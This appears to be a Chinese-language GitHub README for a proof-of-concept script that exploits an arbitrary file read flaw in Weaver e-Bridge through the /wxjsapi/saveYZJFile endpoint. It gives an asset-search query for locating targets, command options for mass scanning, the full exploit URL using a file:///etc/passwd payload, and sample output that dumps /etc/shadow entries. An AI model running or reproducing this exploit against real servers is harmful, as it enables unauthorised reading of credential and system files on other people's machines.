 # fanweiOA-saveYZJFile任意文件读取漏洞

# 漏洞描述
泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

# 影响版本
泛微云桥 e-Bridge 2018-2019 多个版本

# 网络测绘
title="泛微云桥e-Bridge"

# 使用方法
optional arguments:
  -h, --help                    show this help message and exit
  -i IP, --ip IP                单个ip地址
  -l LIST, --list LIST          ip列表 - 批量扫描
  -t TARGET, --target TARGET    访问的目录或文件 - 完整路径
  
# 例子
```shell
python poc.py -i xx.xx.xx.xx

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: linux http://xx.xx.xx.xx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
[+] http://xx.xx.xx.xx maybe vulnerable
```

Linux系统
```shell
python poc.py -i xx.xx.xx.xx -t etc/shadow

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: linux http://xx.xx.xx.xx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
[+] http://xx.xx.xx.xx maybe vulnerable

------------results------------
root:*:19001:0:99999:7:::
bin:*:15980:0:99999:7:::
daemon:*:15980:0:99999:7:::
adm:*:15980:0:99999:7:::
......
```

